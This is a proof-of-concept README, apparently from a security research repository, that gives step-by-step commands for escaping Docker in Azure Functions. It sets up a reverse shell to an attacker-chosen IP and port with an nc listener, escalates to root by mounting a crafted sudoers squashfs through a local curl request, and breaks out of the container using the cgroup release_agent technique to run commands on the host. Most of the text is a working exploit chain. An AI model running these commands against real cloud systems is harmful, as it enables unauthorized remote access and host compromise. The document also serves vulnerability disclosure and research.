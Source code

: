 For more details:
https://www.intezer.com/blog/research/how-we-escaped-docker-in-azure-functions/

In this POC we'll setup a reverse shell with the squashfs to escalate privileges in Azure Function, and break out of the Docker environment.

1. Install [Azure Functions CLI](https://docs.microsoft.com/en-us/azure/azure-functions/functions-run-local?tabs=linux%2Ccsharp%2Cbash)

2. Follow the Azure [guide](https://docs.microsoft.com/en-us/azure/azure-functions/create-first-function-cli-python?tabs=azure-cli%2Cbash%2Cbrowser) for setting up an Azure Function

3. Copy the files required for the POC to the function directory:

   ```bash
   cp files/__init__.py FUNCTIONDIR/FUNCTIONNAME/__init__.py
   cp files/sudoers.sqsh FUNCTIONDIR/
   ```

4. Fill in the `PORT` and `IP` fields in the `FUNCTIONDIR/FUNCTIONNAME/__init__.py`  file to the server that will communicate with the reverse shell.

5. Deploy the function (like in the guide above):

   ```func azure functionapp publish <APP_NAME>```

6. Listen on the reverse shell port (don't forget to white list this port on the firewall):

   ```nc -nlv 0.0.0.0 PORT ```

   and invoke the Function with the invocation URL you were given with the `functionapp publish` command.

7. You should now be in the Azure Function, escalate privileges:

   ```bash
   curl "localhost:6060/?operation=squashfs&filePath=/home/site/wwwroot/sudoers.sqsh&targetPath=/etc/sudoers.d"
   sudo su
   ```

8. Finally, break out of the Docker container (run ps on the Docker host in our example):

   ```bash
   mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
            
   touch /output
   echo 1 > /tmp/cgrp/x/notify_on_release
   mount > /tmp/mtab
   host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /tmp/mtab`
   echo "$host_path/cmd" > /tmp/cgrp/release_agent
            
   echo '#!/bin/sh' > /cmd
   echo "ps aux >> $host_path/hostps" >> /cmd
   echo "ps aux >> $host_path/hostps2" >> /cmd
   chmod a+x /cmd
   
   sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs" 
   ```

